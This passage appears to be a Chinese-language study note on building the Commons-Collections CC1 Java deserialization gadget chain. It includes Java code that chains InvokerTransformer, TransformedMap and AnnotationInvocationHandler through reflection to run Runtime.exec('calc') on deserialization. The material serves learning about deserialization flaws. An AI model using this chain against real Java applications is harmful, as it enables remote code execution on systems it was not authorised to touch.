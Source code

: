 
`AnnotationInvocationHandler`是`default`类型，只能在该包下调用，所以要用反射

后面`readObject`中还有两个if判断条件，所以这里还需要用构造函数给参数赋值来绕过if判断

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor =c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("test.txt");
```

## 遇到的问题

> ①：`Runtime` 对象不可序列化，需要通过反射将其变成可以序列化的形式。

> ②：`setValue()` 的传参，是需要传 `Runtime` 对象的；而在实际情况当中的 `setValue()` 的传参是这个东西
>
> ③：解决上文提到的，要进入 `setValue` 的两个 if 判断

![image-20250923140504583](./Commons-Collections篇01-CC1链/image-20250923140504583.png)

## 解决问题 ① Runtime 不能序列化

`Runtime` 是不能序列化的，但是 `Runtime.class` 是可以序列化的。我们先写一遍普通反射。

```java
Class c = Runtime.class;
        Method getRuntimeMethod =  c.getMethod("getRuntime",null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
        Method execMethod = c.getMethod("exec",String.class);
        execMethod.invoke(r,"calc");
```
